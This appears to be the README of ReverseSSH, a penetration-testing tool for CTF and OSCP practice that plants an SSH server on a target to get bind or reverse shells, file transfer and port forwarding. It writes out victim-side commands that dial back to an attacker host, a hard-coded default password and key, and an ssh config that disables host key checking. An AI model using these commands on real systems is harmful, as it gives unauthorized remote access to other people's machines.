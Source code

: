 # ReverseSSH

**A statically-linked ssh server with a reverse connection feature for simple yet powerful remote access. Most useful during HackTheBox challenges, CTFs or similar.**

Has been developed and was extensively used during OSCP exam preparation.

**[Get the latest Release](https://github.com/Fahrj/reverse-ssh/releases/latest)**

![Showcase](doc/showcase.gif)


## Features

Catching a reverse shell with _netcat_ is cool, sure, but who hasn't accidentally closed a reverse shell with a keyboard interrupt due to muscle memory?
Besides their fragility, such shells are also often missing convenience features such as fully interactive access, TAB-completion or history.

Instead, you can go the way to simply deploy the **lightweight ssh server** (<1.5MB) `reverse-ssh` onto the target, and use additional commodities such as **file transfer** and **port forwarding**!

ReverseSSH tries to bridge the gap between initial foothold on a target and full local privilege escalation.
Its main strengths are the following:

* **Fully interactive shell access**  (check windows caveats below)
* **File transfer via sftp**
* **Local / remote / dynamic port forwarding**
* **Can be used as bind- and reverse-shell**
* Supports **Unix** and **Windows** operating systems

**Windows caveats**

A fully interactive powershell on windows relies on [Windows Pseudo Console ConPTY](https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/) and thus requires at least `Win10 Build 17763`.
On earlier versions you can still get an interactive reverse shell that can't handle virtual terminal codes such as arrow keys or keyboard interrupts.
In such cases you have to append the `cmd` command, i.e. `ssh <OPTIONS> <IP> cmd`.

You can achieve full interactive shell access for older windows versions by dropping `ssh-shellhost.exe` [from OpenSSH for Windows](https://github.com/PowerShell/Win32-OpenSSH/releases/latest) in the same directory as `reverse-ssh` and then use flag `-s ssh-shellhost.exe`.
This will pipe all traffic through `ssh-shellhost.exe`, which mimics a pty and transforms all virtual terminal codes such that windows can understand.


## Requirements

Simply executing the provided binaries only relies on [golang system requirements](https://github.com/golang/go/wiki/MinimumRequirements#operating-systems).

In short:

* **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

Once `reverse-ssh` is running, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```shell
# Fully interactive shell access
ssh -p <RPORT> <RHOST>

# Simple command execution
ssh -p <RPORT> <RHOST> whoami

# Full-fledged file transfers
sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy on port 9050
ssh -p <RPORT> -D 9050 <RHOST>
```

### Simple bind shell scenario

```shell
# Victim
victim$./reverse-ssh

# Attacker (default password: letmeinbrudipls)
attacker$ssh -p 31337 <LHOST>
```

### Simple reverse shell scenario

```shell
# On attacker (get ready to catch the incoming request;
# can be omitted if you already have an ssh daemon running, e.g. OpenSSH)
attacker$./reverse-ssh -l :<LPORT>

# On victim
victim$./reverse-ssh -p <LPORT> <LHOST>
# or in case of an ssh daemon listening at port 22 with user/pass authentication
victim$./reverse-ssh <USER>@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ssh -p 8888 127.0.0.1
# or with ssh config from below
attacker$ssh target
```

In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.
Dialling home currently is password only, because I didn't feel like baking a private key in there as well yet...

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](id_reverse-ssh) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```shell
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Full usage

```shell
reverseSSH v1.0.0  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [<user>@]<target>

Examples:
  Bind:
        reverse-ssh
        reverse-ssh -v -l :4444
  Reverse:
        reverse-ssh 192.168.0.1
        reverse-ssh kali@192.168.0.1
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -s, Shell to use for incoming connections, e.g. /bin/bash; (default: /bin/bash)
                for windows this can only be used to give a path to 'ssh-shellhost.exe' to
                enhance pre-Windows10 shells (e.g. '-s ssh-shellhost.exe' if in same directory)
        -l, Bind scenario only: listen at this address:port (default: :31337)
        -p, Reverse scenario only: ssh port at home (default: 22)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prepended with
        <user>@ to authenticate as a different user than 'reverse' while dialling home.

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```


## Build instructions

Make sure to install the above requirements such as golang in a matching version and set it up correctly.
Afterwards, you can compile with `make`, which will create static binaries in `bin`.
Use `make compressed` to pack the binaries with upx to further reduce their size.

```shell
make

# or to additionally created binaries packed with upx
make compressed
```

You can also specify a different default shell (`RS_SHELL`), a personalized password (`RS_PASS`) or an authorized key (`RS_PUB`) when compiling:

```shell
ssh-keygen -t ed25519 -f id_reverse-ssh

RS_SHELL="/bin/sh" RS_PASS="secret" RS_PUB="$(cat id_reverse-ssh.pub)" make compressed
```

### Building for different operating systems or architectures

By default, `reverse-ssh` is compiled for your current OS and architecture, as well as for linux and windows in x86 and x64.
To compile for other architectures or another OS you can provide environmental variables which match your target, e.g. for linux/arm64:

```shell
GOARCH=arm64 GOOS=linux make compressed
```

A list of available targets in format `OS/arch` can be obtained via `go tool dist list`.


## Contribute

Is a mind-blowing feature missing? Anything not working as intended?

**Create an issue or pull request!**
